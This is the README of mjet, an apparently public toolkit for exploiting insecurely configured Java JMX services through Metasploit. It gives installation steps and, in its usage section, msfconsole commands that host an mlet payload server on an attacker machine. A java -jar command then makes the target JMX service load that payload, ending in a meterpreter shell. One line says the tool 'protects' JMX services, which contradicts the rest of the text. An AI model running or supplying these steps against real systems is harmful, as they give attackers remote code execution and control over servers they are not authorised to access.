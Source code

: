 # mjet
Mogwai Java Management Extensions (JMX) Exploitation Toolkit

mjet is a tool that can be used to protect insecure configured JMX services. It is based on
the blog post "Exploiting JMX-RMI" from Braden Thomas/Accuvant "http://www.accuvant.com/blog/exploiting-jmx-rmi" 
and can be used to execute arbitrary Metasploit payloads on the target system.

Mjet was originally planned to be a complete attack toolkit, however we noticed that the Metasploit Github repository contains 
a pull request which will provide basic Java RMI/serialization support in native ruby. This is awesome and removes the Java 
dependency. So we stopped developing this tool  and focus on Metasploit instead.

mjet consists of the following parts:
- A metasploit module which emulates a "mlet Server". This is basically a web server which hosts a html file that contains a mlet tag
- A ManagedBean that is changed by the mlet server module to include the selected payload
- A jar archive that is used to contact the insecure JMX service.


### Installation (with the github version of Metasploit)
- Copy the "MBean" folder into the metasploit "data/java/metasploit" directory
- Copy java_mlet_server.rb to modules/exploits/multi/misc/

### Usage 

The example uses following systems:
attacker: 192.168.178.1
target: 192.168.178.200, JMX service running on tcp port 1616

- Configure/start the metasploit module "java_mlet_server". The module will run as a background job
```
msf > use exploit/multi/misc/java_mlet_server
msf > set LHOST 192.168.178.1
msf > set SRVHOST 192.168.178.1
msf > set URIPATH /mlet/
msf > run
```

Use mjet.jar to connect to the vulnerable JMX service and provide the URL to the MLet Web server...
```
java -jar mjet.jar -t 192.168.178.200 -p 1616 -u http://192.168.178.1:8080/mlet/
```

and enjoy your meterpreter shell :-)

